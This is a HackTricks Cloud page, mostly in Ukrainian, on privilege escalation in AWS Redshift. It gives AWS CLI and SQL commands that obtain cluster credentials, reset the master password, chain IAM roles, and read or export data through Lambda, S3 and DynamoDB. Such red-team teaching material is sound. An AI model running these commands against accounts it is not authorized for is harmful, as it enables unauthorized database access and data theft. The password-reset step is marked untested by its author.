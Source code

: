 # AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

Для отримання додаткової інформації про RDS перегляньте:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

З цими дозволами ви можете отримати **інформацію про всі кластери** (включаючи ім'я та ім'я користувача кластера) та **отримати облікові дані** для доступу до нього:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

З цими дозволами ви можете отримати **інформацію про всі кластери** та **отримати облікові дані** для доступу до них.\
Зверніть увагу, що користувач postgres матиме **дозволи, які має IAM-ідентичність**, використана для отримання облікових даних.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Можливо **змінити майстер-пароль** внутрішнього користувача postgres (redshit) з aws cli (я думаю, що це ті дозволи, які вам потрібні, але я ще не тестував їх):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

## Доступ до зовнішніх сервісів

{% hint style="warning" %}
Щоб отримати доступ до всіх наступних ресурсів, вам потрібно **вказати роль для використання**. Кластер Redshift **може мати призначений список ролей AWS**, які ви можете використовувати **якщо знаєте ARN** або просто встановити "**за замовчуванням**", щоб використовувати призначену за замовчуванням.

Більше того, як [**пояснено тут**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift також дозволяє конкатенувати ролі (якщо перша може прийняти другу), щоб отримати подальший доступ, просто **розділяючи** їх комою: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Лямбди

Як пояснено в [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), можливо **викликати функцію лямбда з redshift** з чимось на кшталт:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Як пояснено в [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), можливо **читати та записувати в S3 бакети**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Як пояснено в [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), можливо **отримати дані з dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Таблиця Amazon DynamoDB, яка надає дані, повинна бути створена в тому ж регіоні AWS, що й ваш кластер, якщо ви не використовуєте опцію [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region), щоб вказати регіон AWS, в якому знаходиться таблиця Amazon DynamoDB.
{% endhint %}

### EMR

Перевірте [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
